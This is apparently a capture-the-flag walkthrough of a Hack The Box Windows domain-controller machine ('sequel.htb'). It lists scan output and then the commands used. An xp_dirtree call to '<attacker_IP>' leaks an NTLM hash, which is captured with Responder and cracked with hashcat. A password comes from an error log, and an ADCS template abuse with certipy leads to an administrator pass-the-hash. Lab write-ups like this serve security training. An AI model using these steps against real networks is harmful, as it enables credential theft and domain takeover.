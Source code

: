 **Key Take Aways**
* ADCS Attack
* SMB Relay with MSSQL

# Rust-Scan:
```
Open 10.129.228.253:53
Open 10.129.228.253:88
Open 10.129.228.253:135
Open 10.129.228.253:139
Open 10.129.228.253:389
Open 10.129.228.253:445
Open 10.129.228.253:464
Open 10.129.228.253:593
Open 10.129.228.253:636
Open 10.129.228.253:1433
Open 10.129.228.253:3268
Open 10.129.228.253:3269
Open 10.129.228.253:5985
Open 10.129.228.253:9389
Open 10.129.228.253:49667
Open 10.129.228.253:49691
Open 10.129.228.253:49692
Open 10.129.228.253:49711
Open 10.129.228.253:49715
```

# Nmap:
```
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2024-04-13 18:13:41Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.129.228.253:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.228.253:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.1776
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack Microsoft Windows RPC
49711/tcp open  msrpc         syn-ack Microsoft Windows RPC
49715/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
# smbmap:

		Sharename       Type      Comment
        ---------       ----      -------
        ADMIN           Disk      Remote Admin
        C$              Disk      Default share
        IPC$             IPC      Remote IPC
        NETLOGON        Disk      Logon server share 
        Public          Disk      
        SYSVOL          Disk      Logon server share 


$ smbclient \\\\$IP\\Public -N -c

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Nov 19 17:21:25 2022
  ..                                  D        0  Sat Nov 19 17:21:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 19:09:43 2022
```

# MSSQL - SMB STEAL HASH:

impacket-mssqlclient guestuser:passwd@$IP

xp_dirtree '\\<attacker_IP>\any\thing'

**Capture hash**

sudo responder -I tun0

hashcat -a 0 -m 5600  hash.txt /usr/share/wordlists/rockyou.txt

# User Own
evil-winrm -u sql_svc  -p 'password-cracked'  -i $IP

cd  C:/SQLServer/Logs

type ERRORLOG.bak (_Password Disclosed_)

# Root Own
certipy-ad find -u Ryan.Cooper -p password -dc-ip $IP -text -stdout -vulnerable


certipy-ad req -u Ryan.Cooper -p password -target sequel.htb -upn administrator@sequel.htb -ca sequel-DC-CA -template UserAuthentication -debug


sudo ntpdate $IP

certipy-ad auth -pfx administrator.pfx -debug

Got hash for 'administrator@sequel.htb': hash

evil-winrm -i sequel.htb -u administrator -H 'hash'
